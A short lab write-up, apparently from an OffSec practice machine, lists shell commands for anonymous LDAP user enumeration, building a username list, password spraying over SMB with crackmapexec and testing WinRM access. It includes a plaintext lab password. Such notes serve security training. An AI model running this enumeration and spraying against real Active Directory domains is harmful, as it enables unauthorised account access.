 Use ldap search for user enumeration and store results in a file.
```
ldapsearch -x -h 192.168.162.122 -b "dc=hutch,dc=offsec" > ldap_search.txt
```
clean the file by first getting the usernames only
```
cat ldap_search.txt | grep -i "samaccountname"
```
then copying and pasting them into a file.
```
vi raw_users.txt
```
afterwards we edit and clean the file with this command.
```
cat raw_users.txt | cut -d: -f2 | tr -d " " > users.txt
```
used to crack found passwords or users.
```
crackmapexec smb 192.168.105.122 -u users.txt -p CrabSharkJellyfish192 --continue-on-success
```
used to find winrm access.
```
crackmapexec winrm 192.168.219.122 -u fmcsorely -p CrabSharkJellyfish192
```
